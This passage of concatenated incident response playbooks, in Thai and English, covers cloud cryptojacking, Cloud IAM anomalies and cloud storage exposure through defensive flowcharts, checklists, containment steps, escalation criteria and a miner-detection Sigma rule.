> ⚠️ **คำเตือน**: Cloud cryptojacking สามารถสร้างค่า compute หลายแสนถึงหลายล้านบาทภายในไม่กี่ชั่วโมง ผู้โจมตีใช้ API keys ที่ถูกขโมยเพื่อเปิด GPU instances สำหรับขุด crypto

### Cryptojacking Attack Chain

```mermaid
graph LR
    A["1️⃣ ขโมย Credential\nAPI key/token ที่เปิดเผย"] --> B["2️⃣ เข้าถึง Cloud\nAWS/GCP/Azure"]
    B --> C["3️⃣ เปิด Instances\nGPU/large compute"]
    C --> D["4️⃣ Deploy Miner\nXMRig/T-Rex/PhoenixMiner"]
    D --> E["5️⃣ ขุด Crypto\nMonero/ETH"]
    E --> F["6️⃣ กำไร\nเหยื่อจ่ายค่า bill 💸"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### Cloud Attack Surface

```mermaid
graph TD
    Surface["☁️ Attack Surface"] --> Keys["API Keys ที่เปิดเผย\nGitHub repos, .env files"]
    Surface --> IAM["IAM อ่อนแอ\nRoles ที่มีสิทธิ์มากเกิน"]
    Surface --> SSRF["SSRF Attacks\nMetadata service"]
    Surface --> Supply["Supply Chain\nCI/CD ที่ถูก compromise"]
    
    Keys --> Mine["Crypto Mining\n24/7 GPU instances"]
    IAM --> Mine
    SSRF --> Mine
    Supply --> Mine
    
    Mine --> Cost["💸 $50K-$500K\nค่าใช้จ่ายต่อวัน"]
    
    style Surface fill:#ff6600,color:#fff
    style Cost fill:#660000,color:#fff
    style Mine fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Cloud Cost ผิดปกติ / พบ Miner"] --> Source{"แหล่ง alert?"}
    Source -->|"Cost alert"| Cost["Cost spike รายเดือน\nเพิ่มขึ้น > 200%"]
    Source -->|"Instances ใหม่"| Instances["Instances ที่ไม่รู้จัก\nGPU types, regions ผิดปกติ"]
    Source -->|"EDR/Process"| Process["XMRig, crypto miner\nprocess ตรวจพบ"]
    Source -->|"GuardDuty/Defender"| Guard["Cloud security alert\nCrypto mining behavior"]
    Cost --> Investigate["ตรวจ: ใครเปิด instances?"]
    Instances --> Investigate
    Process --> Isolate["🔴 Terminate instance ทันที"]
    Guard --> Isolate
    Investigate --> Auth{"Workload ที่ได้รับอนุญาต?"}
    Auth -->|"ไม่ — ไม่รู้จัก"| Contain["🔴 CONTAIN\nTerminate + revoke keys"]
    Auth -->|"ใช่ — คาดหวัง"| Close["ปิด alert"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
    style Isolate fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant Cloud as Cloud Alert
    participant SOC as SOC Analyst
    participant CloudAdmin as Cloud Admin
    participant SecEng as Security Eng
    participant Finance

    Cloud->>SOC: 🚨 Cost spike / instances ผิดปกติ
    SOC->>CloudAdmin: ดึง CloudTrail/Activity logs
    CloudAdmin->>SOC: API key X เปิด 50 GPU instances
    SOC->>SOC: พบ API key ใน public GitHub repo!
    SOC->>CloudAdmin: Revoke API key ทันที
    SOC->>CloudAdmin: Terminate instances ที่ไม่ได้รับอนุญาตทั้งหมด
    CloudAdmin->>Finance: ค่าใช้จ่ายที่ไม่ได้รับอนุญาตโดยประมาณ: $48,000
    SOC->>SecEng: Rotate API keys ทั้งหมด, audit IAM
    Finance->>Cloud: ยื่น abuse claim กับ cloud provider
```

### การประเมินผลกระทบค่าใช้จ่าย

```mermaid
graph TD
    Impact["ประเมินค่าใช้จ่าย"] --> Hours{"ระยะเวลาที่ทำงาน?"}
    Hours -->|"< 1 ชั่วโมง"| Low["🟡 $100 - $1,000"]
    Hours -->|"1-24 ชั่วโมง"| Med["🟠 $1,000 - $50,000"]
    Hours -->|"1-7 วัน"| High["🔴 $50,000 - $500,000"]
    Hours -->|"> 7 วัน"| Cat["💀 $500,000+"]
    Low --> Action1["Terminate + rotate keys"]
    Med --> Action2["Terminate + ยื่น cloud claim"]
    High --> Action3["Emergency escalation + กฎหมาย"]
    Cat --> Action4["แจ้ง CEO/CFO + ประกัน"]
    style Cat fill:#660000,color:#fff
    style High fill:#cc0000,color:#fff
```

### ตัวบ่งชี้ Miner ที่พบบ่อย

```mermaid
graph TD
    subgraph "ตัวบ่งชี้ Process"
        P1["xmrig / xmrig-notls"]
        P2["t-rex / trex"]
        P3["phoenixminer"]
        P4["ethminer"]
    end
    subgraph "ตัวบ่งชี้ Network"
        N1["Stratum protocol\nport 3333, 4444, 5555"]
        N2["Mining pool domains\npool.minexmr.com"]
        N3["Bandwidth ออกสูง\nรูปแบบสม่ำเสมอ"]
    end
    subgraph "ตัวบ่งชี้ Cloud"
        C1["GPU instances ใน\nregions ผิดปกติ"]
        C2["p3/p4/g4 instance types\n(AWS GPU)"]
        C3["Spot instances\n(ลดค่าใช้จ่าย)"]
    end
    style P1 fill:#cc0000,color:#fff
    style N1 fill:#ff6600,color:#fff
    style C1 fill:#ff6600,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Cloud Cryptojacking Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Cost/cloud alert       :a1, 00:00, 5min
        ยืนยันไม่ได้รับอนุญาต  :a2, after a1, 10min
    section Containment
        Terminate instances    :a3, after a2, 5min
        Revoke API keys        :a4, after a3, 10min
    section Investigation
        Audit CloudTrail       :a5, after a4, 60min
        หาแหล่ง credential     :a6, after a5, 60min
    section Recovery
        Rotate credentials ทั้งหมด :a7, after a6, 120min
        ยื่น cloud abuse claim  :a8, after a7, 30min
```

---

## 1. การดำเนินการทันที (10 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | Terminate compute instances ที่ไม่ได้รับอนุญาตทั้งหมด | Cloud Admin |
| 2 | Revoke API keys/access tokens ที่ถูกโจมตี | Cloud Admin |
| 3 | ตั้ง billing alert และ spending limit ทันที | Finance |
| 4 | ตรวจ backdoor access เพิ่มเติม (IAM users, roles) | SecEng |
| 5 | Audit CloudTrail/Activity Log สำหรับทุกกิจกรรมของ key ที่ถูก compromise | SOC |
| 6 | แจ้งการเงินเรื่องค่าใช้จ่ายที่ไม่ได้รับอนุญาตโดยประมาณ | SOC Manager |

## 2. รายการตรวจสอบ

### Cloud Platform Audit
- [ ] CloudTrail/Activity logs: ใครสร้าง instances?
- [ ] API key/service account ไหนถูกใช้?
- [ ] Credential ถูกเปิดเผยที่ไหน? (GitHub, .env, CI/CD)
- [ ] Instance types และ regions อะไรถูกใช้?
- [ ] มี IAM users/roles ที่สร้างเพิ่มหรือไม่?

### วิเคราะห์ค่าใช้จ่าย
- [ ] ค่า compute ที่ไม่ได้รับอนุญาตที่แน่นอน
- [ ] ระยะเวลาที่ instances ทำงาน
- [ ] ผลกระทบทางการเงินรวมโดยประมาณ
- [ ] Cloud provider สามารถ reverse charges ได้หรือไม่?

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **Instances** | Terminate compute ที่ไม่ได้รับอนุญาตทั้งหมด |
| **API keys** | Revoke ทันที, rotate ทั้งหมด |
| **IAM** | ลบ users/roles ที่ไม่ได้รับอนุญาต |
| **Budget** | ตั้ง hard spending limit |
| **Secrets** | Scan repos หา credentials ที่เปิดเผย |

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Cloud credentials ถูกเปิดเผยอย่างไร? | [GitHub/env/CI/CD] |
| Budget alerts กำหนดค่าอยู่หรือไม่? | [ใช่/ไม่] |
| IAM least-privilege บังคับใช้อยู่หรือไม่? | [สถานะ] |
| ผลกระทบทางการเงินรวม? | [$จำนวน] |

## 6. Detection Rules (Sigma)

```yaml
title: Crypto Mining Process Detected
logsource:
    product: linux
    category: process_creation
detection:
    selection:
        Image|contains:
            - 'xmrig'
            - 'minerd'
            - 'cryptonight'
            - 't-rex'
    condition: selection
    level: critical
```

## เอกสารที่เกี่ยวข้อง
- [Cryptomining Playbook](Cryptomining.th.md)
- [Account Compromise Playbook](Account_Compromise.th.md)

## References
- [MITRE T1496 — Resource Hijacking](https://attack.mitre.org/techniques/T1496/)
- [AWS — Detecting Cryptomining](https://docs.aws.amazon.com/guardduty/latest/ug/)


---

## File: 05_Incident_Response/Playbooks/Cloud_IAM.en.md

# Playbook: Cloud IAM Anomaly

**ID**: PB-16
**Severity**: High/Critical | **Category**: Cloud Security
**MITRE ATT&CK**: [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation), [T1078.004](https://attack.mitre.org/techniques/T1078/004/) (Cloud Accounts), [T1580](https://attack.mitre.org/techniques/T1580/) (Cloud Infrastructure Discovery)
**Trigger**: CloudTrail/Audit Log anomaly, GuardDuty/Defender alert, SIEM correlation, Billing alert

### IAM Anomaly Detection

```mermaid
graph TD
    Alert["🚨 IAM Alert"] --> Type{"📋 Type?"}
    Type -->|New admin role| Admin["👑 Verify authorization"]
    Type -->|Cross-account| Cross["🔀 Check trust policy"]
    Type -->|Key creation| Key["🔑 Validate requester"]
    Type -->|Policy change| Policy["📝 Review diff"]
    Admin --> Assess["⚖️ Risk Assessment"]
    Cross --> Assess
    Key --> Assess
    Policy --> Assess
```

### Break-Glass Procedure

```mermaid
sequenceDiagram
    participant SOC
    participant Vault as Break-Glass Vault
    participant Cloud as Cloud Console
    participant Manager
    SOC->>Manager: 🚨 Request break-glass approval
    Manager-->>SOC: ✅ Approved
    SOC->>Vault: Retrieve root credentials
    SOC->>Cloud: Disable compromised IAM
    SOC->>Cloud: Revoke all sessions
    SOC->>Vault: Return + rotate credentials
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Cloud IAM Alert"] --> Type{"⚙️ Alert Type?"}
    Type -->|Root/Global Admin Login| Root["🔴 Root Account Activity"]
    Type -->|New IAM User/Role| NewUser["🟠 New User Created"]
    Type -->|Permission Change| Perm["🟠 Policy/Role Modified"]
    Type -->|Access Key Created| Key["🟡 New Access Key"]
    Root --> Legacy{"Legacy/Known Use?"}
    Legacy -->|No| Critical["🚨 Critical — Investigate"]
    Legacy -->|Yes, Documented| FP["✅ Close"]
    NewUser --> RFC{"Change Request?"}
    RFC -->|No| Critical
    RFC -->|Yes| Verify["Verify Details Match"]
    Perm --> Authorized{"Authorized Admin?"}
    Authorized -->|No| Critical
    Key --> Needed{"Expected Rotation?"}
    Needed -->|No| Critical
    Critical --> Revoke["🔒 Revoke + Investigate"]
```

---

## 1. Analysis

### 1.1 High-Risk Cloud IAM Events

| Event (AWS) | Event (Azure) | Risk | Description |
|:---|:---|:---|:---|
| `ConsoleLogin` (Root) | `Sign-in` (Global Admin) | 🔴 Critical | Root/GA should rarely be used |
| `CreateUser` | `Add user` | 🟠 High | New identity created |
| `AttachUserPolicy` | `Add member to role` | 🟠 High | Privilege escalation |
| `CreateAccessKey` | `Add service principal credential` | 🟡 Medium | Persistent programmatic access |
| `PutBucketPolicy` | `Set-AzStorageContainerAcl` | 🔴 Critical | Storage exposure |
| `AuthorizeSecurityGroupIngress` | `NSG rule create` | 🟠 High | Network exposure |
| `RunInstances` | `Microsoft.Compute/virtualMachines/write` | 🟡 Medium | Compute spin-up (cryptomining?) |
| `CreateRole` + `AssumeRole` | `Create/assign custom role` | 🔴 Critical | Cross-account escalation |
| `StopLogging` (CloudTrail) | `Disable diagnostic settings` | 🔴 Critical | Covering tracks |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Who performed the action? (User ARN / UPN) | CloudTrail / Azure Activity Log | ☐ |
| Source IP and geolocation | Event details | ☐ |
| Was it console or API (programmatic)? | Event details | ☐ |
| Was MFA used? | Sign-in details | ☐ |
| Change request / ticket exists? | ITSM | ☐ |
| What permissions were granted? | IAM policy details | ☐ |
| Were any resources created? (EC2, S3, VMs) | Cloud console / audit | ☐ |
| Were billing alerts triggered? | Billing / Cost Explorer | ☐ |

### 1.3 Post-Compromise Activity Check

| Resource Type | Suspicious Activity | Done |
|:---|:---|:---:|
| **Compute** (EC2/VM) | New instances (cryptomining) | ☐ |
| **Storage** (S3/Blob) | Public bucket, data download | ☐ |
| **Network** (SG/NSG) | Ingress rules opened (0.0.0.0/0) | ☐ |
| **Lambda/Functions** | New functions (backdoor, exfil) | ☐ |
| **CloudTrail/Monitor** | Logging disabled | ☐ |
| **IAM** | Additional users/roles created | ☐ |

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Disable/deactivate** compromised IAM user/access key | AWS IAM / Azure AD | ☐ |
| 2 | **Revoke active sessions** | IAM / IdP | ☐ |
| 3 | **Rotate access keys** for affected accounts | IAM | ☐ |
| 4 | **Block source IP** in security group / NSG / WAF | Cloud console | ☐ |
| 5 | **Re-enable CloudTrail/logging** if disabled | Cloud console | ☐ |

### 2.2 If Root / Global Admin Compromised

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Enable hardware MFA on Root/GA immediately | ☐ |
| 2 | Rotate Root/GA password (use break-glass procedure) | ☐ |
| 3 | Audit ALL IAM users and roles in the account | ☐ |
| 4 | Check for cross-account trust relationships created | ☐ |
| 5 | Review billing for unexpected charges | ☐ |
| 6 | Contact cloud provider support for suspicious activity report | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Delete unauthorized IAM users/roles | ☐ |
| 2 | Remove unauthorized policies and permissions | ☐ |
| 3 | Terminate unauthorized compute instances | ☐ |
| 4 | Delete unauthorized storage buckets/containers | ☐ |
| 5 | Remove unauthorized security group/NSG rules | ☐ |
| 6 | Remove unauthorized Lambda functions/Logic Apps | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Enforce MFA on all IAM users (hardware key for admins) | ☐ |
| 2 | Implement least-privilege IAM policies | ☐ |
| 3 | Enable GuardDuty (AWS) / Defender for Cloud (Azure) | ☐ |
| 4 | Enable CloudTrail multi-region + S3 log integrity | ☐ |
| 5 | Set billing alerts and anomaly detection | ☐ |
| 6 | Implement SCP (AWS) / Azure Policy to prevent Root usage | ☐ |
| 7 | Monitor all cloud activity for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Compromised User ARN / UPN | | CloudTrail / Azure |
| Attacker IP | | Event details |
| Access Key ID used | | CloudTrail |
| Resources created | | Cloud audit |
| Policies attached | | IAM audit |
| Billing anomalies | | Cost Explorer |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Root / Global Admin compromise | CISO + Cloud team immediately |
| CloudTrail / logging disabled | CISO + SOC Lead |
| Unauthorized cross-account access | CISO + Cloud architecture |
| Cryptomining detected (billing spike) | Cloud team + Finance |
| Data exposed in public storage | Legal + DPO (PDPA 72h) |
| Multiple cloud accounts affected | Major Incident |

---

### Least Privilege Model

```mermaid
graph TD
    User["👤 User"] --> Role{"🏷️ Role?"}
    Role -->|Read only| Read["📖 Viewer"]
    Role -->|Deploy| Deploy["🚀 Developer"]
    Role -->|Admin| Admin["👑 PIM-protected"]
    Admin --> JIT["⏱️ JIT: 2h max"]
    JIT --> Approval["✅ Requires approval"]
    style Admin fill:#e74c3c,color:#fff
    style JIT fill:#f39c12,color:#fff
    style Approval fill:#27ae60,color:#fff
```

### Cloud Permission Audit

```mermaid
sequenceDiagram
    participant CSPM
    participant SOC
    participant IAM
    participant Owner
    CSPM->>SOC: ⚠️ Over-permissioned role found
    SOC->>IAM: Check last usage
    IAM-->>SOC: Unused for 90 days
    SOC->>Owner: ☎️ Confirm necessity
    Owner-->>SOC: No longer needed
    SOC->>IAM: Remove role
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| AWS Root Account Login | [cloud_root_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_root_login.yml) |
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-07 Privilege Escalation](Privilege_Escalation.en.md)
- [PB-15 Rogue Admin](Rogue_Admin.en.md)

## References

- [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [AWS Security Incident Response Guide](https://docs.aws.amazon.com/whitepapers/latest/aws-security-incident-response-guide/welcome.html)
- [Microsoft Cloud Security Benchmark](https://learn.microsoft.com/en-us/security/benchmark/azure/)


---

## File: 05_Incident_Response/Playbooks/Cloud_IAM.th.md

# Playbook: Cloud IAM Anomaly / ความผิดปกติ IAM คลาวด์

**ID**: PB-16
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ความปลอดภัยคลาวด์
**MITRE ATT&CK**: [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation), [T1078.004](https://attack.mitre.org/techniques/T1078/004/) (Cloud Accounts)
**ทริกเกอร์**: CloudTrail/Azure Monitor anomaly, Root/GlobalAdmin login, GuardDuty IAM finding, Billing spike


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน IAM policies ตาม least privilege
- [ ] เปิดใช้ SCPs / Permission boundaries
- [ ] ตรวจสอบ service account key rotation
- [ ] ใช้ CSPM tool เพื่อเฝ้าระวังอย่างต่อเนื่อง
- [ ] ทำ access recertification สำหรับ cloud roles
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการตรวจจับ IAM Anomaly

```mermaid
graph TD
    CT["📋 CloudTrail/Audit"] --> ML["🤖 Analytics"]
    ML --> Type{"⚠️ ประเภท?"}
    Type -->|Root Login| R["🔴 วิกฤต"]
    Type -->|New IAM User| N["🟠 สูง"]
    Type -->|Policy Change| P["🟠 สูง"]
    Type -->|Disable Logging| D["🔴 วิกฤต"]
    R --> SOC["🚨 Alert SOC"]
    N --> SOC
    P --> SOC
    D --> SOC
```

### ผังขั้นตอน Break-Glass

```mermaid
sequenceDiagram
    participant SOC
    participant Safe as Sealed Envelope
    participant Cloud as AWS/Azure
    participant CISO
    SOC->>CISO: 🚨 ต้องใช้ Root/GA
    CISO->>Safe: เปิด sealed envelope
    Safe-->>CISO: Root credentials
    CISO->>Cloud: Login + ดำเนินการ
    Cloud-->>CISO: เสร็จสิ้น
    CISO->>Cloud: เปลี่ยนรหัสผ่าน
    CISO->>Safe: ปิดผนึกใหม่
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Cloud IAM Alert"] --> Type{"⚙️ ประเภท?"}
    Type -->|Root/GA Login| Root["👑 Root/Global Admin"]
    Type -->|สร้าง IAM User/Role| Create["👤 New Identity"]
    Type -->|สร้าง Access Key| Key["🔑 New Credentials"]
    Type -->|เปลี่ยน Policy| Policy["📋 Policy Change"]
    Type -->|ลบ Logging| Log["🗑️ Disable Audit"]
    Root --> Verify{"✅ ได้รับอนุมัติ?"}
    Create --> Verify
    Key --> Verify
    Policy --> Verify
    Log --> Urgent["🔴 เปิด logging ทันที"]
    Verify -->|ไม่| Contain["🔒 ปิด + กู้คืน"]
    Verify -->|ใช่| Monitor["👁️ บันทึก + ติดตาม"]
```

---

## 1. การวิเคราะห์

### 1.1 เหตุการณ์ที่มีความเสี่ยงสูง

| เหตุการณ์ | AWS CloudTrail | Azure Monitor | ความรุนแรง |
|:---|:---|:---|:---|
| **Root/GA login** | `ConsoleLogin` (Root) | GA sign-in | 🔴 วิกฤต |
| **สร้าง IAM user/role** | `CreateUser`, `CreateRole` | `Add member` | 🔴 สูง |
| **สร้าง Access Key** | `CreateAccessKey` | `Add app credential` | 🔴 สูง |
| **เปลี่ยน policy** | `PutUserPolicy`, `AttachPolicy` | `Add role assignment` | 🟠 สูง |
| **ลบ logging** | `DeleteTrail`, `StopLogging` | `Disable diagnostic` | 🔴 วิกฤต |
| **สร้าง federation** | `CreateSAMLProvider` | `Add federated domain` | 🔴 วิกฤต |
| **AssumeRole ผิดปกติ** | `AssumeRole` จาก IP ใหม่ | — | 🟠 สูง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ใคร/อะไร ทำกิจกรรมนี้? (IAM user/role/service) | CloudTrail / Azure Audit | ☐ |
| จาก IP/location ไหน? | CloudTrail sourceIP | ☐ |
| มี Change Request ที่ได้รับอนุมัติ? | ITSM / Ticketing | ☐ |
| Root/GA มีการใช้งานปกติหรือไม่? (ควร = ไม่) | CloudTrail / Azure | ☐ |
| มีทรัพยากรใหม่ถูกสร้าง? (EC2, Lambda, etc.) | CloudTrail / Azure | ☐ |
| มี billing anomaly? | Billing dashboard | ☐ |
| Logging ยังเปิดอยู่? | CloudTrail / Config | ☐ |

### 1.3 ตรวจทรัพยากรที่สร้างใหม่

| ทรัพยากร | ตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| EC2 instances (ทุก region!) | AWS Console / CLI | ☐ |
| Lambda functions | AWS Console | ☐ |
| S3 buckets | AWS Console | ☐ |
| IAM users/roles/policies | IAM Console | ☐ |
| Network (VPC, SG, NACL changes) | VPC Console | ☐ |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **ปิด Access Keys** ที่น่าสงสัย | IAM Console | ☐ |
| 2 | **ลบ IAM users/roles** ที่ไม่ได้รับอนุมัติ | IAM Console | ☐ |
| 3 | **กู้คืน policies** ที่ถูกเปลี่ยน | IAM / IaC | ☐ |
| 4 | **เปิด logging** ที่ถูกปิด (CloudTrail, Config) | AWS Console | ☐ |
| 5 | **Terminate** instances/lambdas ที่ผู้โจมตีสร้าง | AWS Console | ☐ |
| 6 | **ตรวจ billing** สำหรับค่าใช้จ่ายผิดปกติ | Billing | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | หมุนเวียน Root/GA credentials | ☐ |
| 2 | ลบทรัพยากรทั้งหมดที่ผู้โจมตีสร้าง (ทุก region!) | ☐ |
| 3 | ลบ federation trust ที่เพิ่ม (ถ้ามี) | ☐ |
| 4 | ตรวจ STS credentials ที่ assume แล้ว | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | บังคับ **MFA** สำหรับ Root/GA (hardware key) | ☐ |
| 2 | ใช้ **SCP** / **Azure Policy** ห้ามใช้ Root ในงานประจำ | ☐ |
| 3 | ใช้ **break-glass procedure** สำหรับ GA (sealed envelope) | ☐ |
| 4 | เปิด **alerts** สำหรับ Root/GA login, IAM changes | ☐ |
| 5 | ใช้ **Terraform/CloudFormation** สำหรับ IAM changes (GitOps) | ☐ |
| 6 | ตรวจสอบ IAM access ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Root/GA ถูกบุกรุก | CISO + Major Incident |
| Cryptomining instances สร้างขึ้น | Finance + [PB-31 Cryptomining](Cryptomining.th.md) |
| ข้อมูลถูกเข้าถึง (S3/DB) | Legal + DPO (PDPA 72 ชม.) |
| Billing spike > $1,000 | Finance + Cloud team |
| Logging ถูกปิด | CISO ทันที |

---

### ผัง Least Privilege Model

```mermaid
graph TD
    User["👤 User"] --> Role{"🏷️ Role?"}
    Role -->|Read only| Read["📖 Viewer"]
    Role -->|Deploy| Deploy["🚀 Developer"]
    Role -->|Admin| Admin["👑 PIM-protected"]
    Admin --> JIT["⏱️ JIT: 2h max"]
    JIT --> Approval["✅ Requires approval"]
    style Admin fill:#e74c3c,color:#fff
    style JIT fill:#f39c12,color:#fff
    style Approval fill:#27ae60,color:#fff
```

### ผัง Cloud Permission Audit

```mermaid
sequenceDiagram
    participant CSPM
    participant SOC
    participant IAM
    participant Owner
    CSPM->>SOC: ⚠️ Over-permissioned role found
    SOC->>IAM: Check last usage
    IAM-->>SOC: ไม่เคยใช้ 90 วัน
    SOC->>Owner: ☎️ ยืนยันความจำเป็น
    Owner-->>SOC: ไม่จำเป็นแล้ว
    SOC->>IAM: ลบ role
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| AWS Root Account Login | [cloud_root_login.yml](../../08_Detection_Engineering/sigma_rules/cloud_root_login.yml) |
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-22 AWS EC2 Compromise](AWS_EC2_Compromise.th.md)
- [PB-21 AWS S3 Compromise](AWS_S3_Compromise.th.md)

## IAM Risk Indicators

| Indicator | Risk Level | Detection |
|:---|:---|:---|
| Unused admin keys > 90d | High | IAM Access Analyzer |
| MFA not enabled (admin) | Critical | IAM policy check |
| Overprivileged roles | Medium | Permission analysis |
| Cross-account access | Medium | CloudTrail review |
| Root account usage | Critical | CloudTrail alert |

### IAM Incident Containment

| Action | AWS | Azure | GCP |
|:---|:---|:---|:---|
| Disable access key | ✅ update-access-key | ✅ Portal | ✅ disable key |
| Revoke sessions | ✅ Inline deny policy | ✅ Revoke sessions | ✅ IAM |
| Reset credentials | ✅ Console/CLI | ✅ Portal/PS | ✅ Console |
| Remove permissions | ✅ Detach policy | ✅ Remove role | ✅ Remove binding |

### Cloud Credential Rotation

| Credential Type | Rotation Cycle |
|:---|:---|
| Access keys | 90 days |
| Service account keys | 60 days |
| Root/admin password | 30 days |
| API tokens | 90 days |

## อ้างอิง

- [MITRE ATT&CK T1078.004 — Cloud Accounts](https://attack.mitre.org/techniques/T1078/004/)
- [AWS Security Incident Response Guide](https://docs.aws.amazon.com/whitepapers/latest/aws-security-incident-response-guide/welcome.html)


---

## File: 05_Incident_Response/Playbooks/Cloud_Storage_Exposure.en.md

# Playbook: Cloud Storage Exposure

**ID**: PB-27
**Severity**: High/Critical | **Category**: Cloud Security
**MITRE ATT&CK**: [T1530](https://attack.mitre.org/techniques/T1530/) (Data from Cloud Storage), [T1537](https://attack.mitre.org/techniques/T1537/) (Transfer Data to Cloud Account)
**Trigger**: CSPM alert (public resource), Cloud audit, SIEM (unusual access), TI (exposed data), Researcher report

### Multi-Cloud Containment

```mermaid
graph TD
    Alert["🚨 Exposed!"] --> Cloud{"☁️ Provider?"}
    Cloud -->|AWS S3| AWS["🔒 BPA + bucket policy"]
    Cloud -->|Azure Blob| Azure["🔒 SAS revoke + ACL"]
    Cloud -->|GCP| GCP["🔒 IAM binding removal"]
    AWS --> Verify["✅ Verify private"]
    Azure --> Verify
    GCP --> Verify
```

### Data Classification Flow

```mermaid
sequenceDiagram
    participant SOC
    participant DLP
    participant Legal
    participant DPO
    SOC->>DLP: Scan exposed storage
    DLP-->>SOC: PII found — 1200 records
    SOC->>Legal: Report data exposure
    Legal->>DPO: PDPA notification required
    DPO->>DPO: Prepare notification within 72h
    DPO-->>SOC: Notification filed
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Public Cloud Storage Detected"] --> Cloud{"☁️ Cloud Provider?"}
    Cloud -->|AWS S3| S3["🪣 Check S3 Policy + ACL"]
    Cloud -->|Azure Blob| Blob["📦 Check Container Access Level"]
    Cloud -->|GCP GCS| GCS["🗂️ Check IAM + allUsers"]
    S3 --> Data{"📁 Sensitive Data?"}
    Blob --> Data
    GCS --> Data
    Data -->|PII / Secrets / Source Code| Critical["🔴 P1 — Immediate Block"]
    Data -->|Internal Docs, Non-sensitive| High["🟠 P2 — Block + Assess"]
    Data -->|Public Content (intended)| Check["🟡 Verify Intended"]
    Critical --> Block["🔒 Block Public Access NOW"]
    High --> Block
    Block --> Investigate["🔍 Audit Access Logs"]
```

---

## 1. Analysis

### 1.1 Exposure Assessment per Cloud

| Cloud | Check | Command / Tool |
|:---|:---|:---|
| **AWS S3** | Block Public Access setting | `aws s3api get-public-access-block --bucket <name>` |
| **AWS S3** | Bucket Policy (`Principal: *`) | `aws s3api get-bucket-policy --bucket <name>` |
| **AWS S3** | ACL (public-read?) | `aws s3api get-bucket-acl --bucket <name>` |
| **Azure Blob** | Container access level | Portal → Storage → Containers → Access Level |
| **Azure Blob** | Anonymous access enabled? | Portal → Storage → Configuration |
| **GCP GCS** | `allUsers` / `allAuthenticatedUsers` binding | `gsutil iam get gs://<bucket>` |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Which storage resource is exposed? | CSPM / Cloud console | ☐ |
| What data is stored? Classify. | Manual review / DLP scan | ☐ |
| How long has it been public? | CloudTrail / Azure Activity / GCP Audit | ☐ |
| Who made it public? (IAM user/role) | Audit logs | ☐ |
| Was it intentional (static website) or accidental? | Owner inquiry | ☐ |
| Has data been accessed by unauthorized parties? | Access logs | ☐ |
| Volume of data downloaded by external IPs | Access logs, S3 server access logs | ☐ |
| Are secrets/credentials stored in exposed storage? | DLP / Secrets scanner | ☐ |

### 1.3 Data Classification Impact

| Data Type | Severity | Regulatory Impact |
|:---|:---|:---|
| **PII / Customer data** | 🔴 Critical | PDPA 72h notification |
| **Credentials / API keys** | 🔴 Critical | Immediate rotation |
| **Source code** | 🔴 Critical | IP exposure |
| **Financial records** | 🔴 Critical | Legal notification |
| **Internal documents** | 🟠 High | Risk assessment |
| **Logs / metrics** | 🟡 Medium | Info exposure |
| **Public assets** (intended) | ✅ None | Verify configuration |

---

## 2. Containment

### 2.1 Immediate Actions (within 15 minutes)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Block public access** (see commands below) | ☐ |
| 2 | **Revoke exposed credentials** — rotate ALL secrets found | ☐ |
